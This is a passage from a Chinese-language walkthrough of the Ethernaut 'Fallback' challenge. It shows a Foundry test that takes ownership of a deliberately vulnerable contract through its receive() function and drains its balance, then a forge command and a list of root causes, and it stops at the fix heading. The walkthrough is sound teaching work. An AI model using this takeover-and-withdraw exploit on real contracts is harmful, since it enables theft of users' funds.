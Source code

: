 ```solidity
        // 给合约一些初始余额
        vm.deal(address(instance), 1 ether);
    }

    function testFallbackExploit() public {
        vm.startPrank(attacker);
        
        // 步骤1: 先贡献少量ETH以满足contributions[msg.sender] > 0
        instance.contribute{value: 0.0001 ether}();
        
        // 验证贡献记录
        assertGt(instance.getContribution(), 0);
        
        // 步骤2: 直接向合约发送ETH触发receive()函数
        (bool sent, ) = address(instance).call{value: 1 wei}("");
        require(sent, "Failed to send Ether to the Fallback");
        
        // 验证已成为owner
        assertEq(instance.getOwner(), attacker);
        
        // 步骤3: 提取所有资金
        uint256 initialBalance = attacker.balance;
        instance.withdraw();
        
        // 验证资金提取成功
        assertGt(attacker.balance, initialBalance);
        assertEq(address(instance).balance, 0);
        
        vm.stopPrank();
    }
}
```

### 运行测试

```bash
# 运行 Fallback 关卡测试
forge test --match-contract FallbackTest -vvv

# 输出应该显示所有断言通过
```

## 🛡️ 防御措施

### 问题根源

1. **权限检查不当** - `receive()` 函数中没有适当的权限验证
2. **逻辑设计缺陷** - 允许通过简单条件获得完整控制权
3. **函数职责混乱** - 接收资金的函数不应包含权限变更逻辑

### 安全修复建议
